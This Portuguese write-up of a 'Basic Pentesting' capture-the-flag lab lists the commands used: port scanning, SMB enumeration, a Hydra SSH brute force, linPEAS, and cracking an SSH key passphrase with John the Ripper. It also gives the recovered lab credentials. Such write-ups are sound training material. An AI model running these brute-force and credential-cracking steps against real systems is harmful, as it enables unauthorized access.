# CTF - BASIC PENTESTING

VPN conectada.

**IP alvo:** `10.67.180.243`

# RECONHECIMENTO E ENUMERAÇÃO

### 1. Scan de todas as portas

```bash
nmap -sS -p- 10.67.180.243 -T5 -vv
```

**Resultado:** encontradas as portas 22, 80, 139, 445, 8009 e 8080.



### 2. Identificação dos serviços

```bash
nmap -v -A -p22,80,139,445,8009,8080 10.67.180.243 -T5 -vv
```

### Análise do serviço HTTP - Acessando a porta 80



**Análise do page source da página**



### 3. Enumeração de diretórios e arquivos

```bash
gobuster dir -u http://10.67.180.243 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

**Resultado:** encontrado o diretório development e analisando no navegador.



**A Página informa que o SMB foi configurado**



**A Página informa para o usuário `J` trocar a senha**



### 4. Enumeração do SMB

**Listagem de compartilhamentos:**

```bash
smbclient -L \\\\10.67.180.243\\
```



**Acesso ao compartilhamento Anonymous:**

```bash
smbclient \\\\10.67.180.243\\Anonymous
```



**Download do arquivo `staff.txt`:**

```bash
get staff.txt
```

**Resultado:** identificado o compartilhamento `Anonymous` via SMB. Após acessá-lo, foi encontrado o arquivo `staff.txt`, que foi baixado para análise.

### 5. Enumeração SMB com Enum4linux

```bash
enum4linux 10.67.180.243
```



**Resultado:** identificados possíveis nomes de usuários do sistema: `jan` e `kay`.

# EXPLORAÇÃO

### 6. Brute Force de senha com o Hydra via SSH.

**Inserido os nomes de usuários identificados no `users.txt`**

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.67.180.243 ssh -V –F
```

**Resultado:** identificadas credenciais válidas para SSH: usuário jan, senha armando.



### 7. Acessando o SSH com `jan:armando`

```bash
ssh jan@10.67.180.243
```

**Foi identificado o arquivo pass.bak no diretório /home/kay, mas para acessar exige privilégios de `root` ou do usuário `kay`, sendo necessária fazer `escalação de privilégios`.**

# PRIVILEGE ESCALATION

### 8. Procurando executáveis com o bit SUID ativado

```bash
find / -perm -4000 2>/dev/null
```

O objetivo foi identificar executáveis com o bit SUID ativado que pudessem apresentar possibilidades de escalonamento de privilégios, mas não vamos partir por esse caminho, vamos utilizar o linPEAS.

### 9. Enumerando com o linPEAS para encontrar caminhos de escalonamento de privilégio

**Transferência do linEPAS para o usuário `jan` via SSH:**

```bash
scp /opt/linPEAS/linpeas.sh jan@10.67.180.243:/dev/shm
```

**Executando o linPEAS e registro de saída no linlog.txt**

```bash
./linpeas.sh | tree linlog.txt
```

**Resultado:** identificada uma chave privada SSH do usuário kay.


O id_rsa esta no formato PEM/OpenSSH sendo necessário recuperar a senha.



### 10. Recuperação da senha da chave com o John the Ripper

**A chave privada foi copiada para a máquina local e salva como kay_id_rsa. Alterado as permissões.**

```bash
nano kay_id_rsa
chmod 600 kay_id_rsa
```

**Convertendo a chave para um formato compatível com o John the Ripper**

```bash
ssh2john.py kay_id_rsa > forjohn.txt
```

**Executando a recuperação da senha da chave com uma wordlist**

```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Resultado:** recuperada a senha  `beeswas`, que protege a chave privada SSH do usuário `kay`.



### 11. Acesso SSH como kay

Utilizando a chave privada e a senha recuperada `beeswas`

```bash
ssh -i kay_id_rsa kay@10.67.180.243 
```

**Encontrado a flag no arquivo `pass.bak`**


